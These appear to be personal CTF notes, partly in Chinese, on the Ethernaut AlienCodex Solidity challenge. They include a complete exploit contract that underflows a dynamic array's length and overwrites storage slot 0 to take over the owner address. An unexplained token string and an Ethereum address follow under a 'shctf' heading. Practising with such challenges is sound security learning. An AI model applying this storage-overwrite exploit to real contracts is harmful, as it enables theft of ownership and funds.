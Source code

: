 ![[Pasted image 20230507214436.png]]

调用 `retract`函数 后溢出
![[Pasted image 20230507230421.png]]

slot1里的值为 `codex.length`,溢出变为2^256-1
在继承的情况下,slot的顺序是按照继承的顺序排列


```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IAlienCodex {
    function owner() external view returns (address);
    function make_contact() external;
    function record(bytes32) external;
    function retract() external;
    function revise(uint256, bytes32) external;
}

contract AlienCodexHack {
    constructor(IAlienCodex challenge) {
        // contact = true;
        challenge.make_contact();

        // codex.length = 2**256 - 1;
        challenge.retract();

        // Overwrite codex[i] <=> slot 0
        uint256 h = uint256(keccak256(abi.encode(uint256(1))));
        uint256 i;
        unchecked {
            i = 0 - h;
        }
        challenge.revise(i, bytes32(uint256(uint160(msg.sender))));

        // Verify if we are the owner now
        require(challenge.owner() == msg.sender, "Failed.");
    }
}
```
不知道为什么修改长度为2\*\*256-1后就可以视作动态数组然后覆盖slot0 





### shctf

```
v4.local.edbztygerjGnKa5XPTOfkzEFjQ2sxXbqRZTZj_4G5A8VbzP70I7BULYPnrn-sbjqneIodj19x6zjNLHlrGJadvtOVoPGpljwaqbgMk971Db7Q9lIo5Pxe2g4RU_Yq1e34OweI_n6KwtVYDW1cPuJnGebQr78KTNUyFRP7QoZsZLUWg.R3JlZXRlcg
```

```
0xBEF0C3B1992979334e472b56fCF6E45eC87D24b3
```
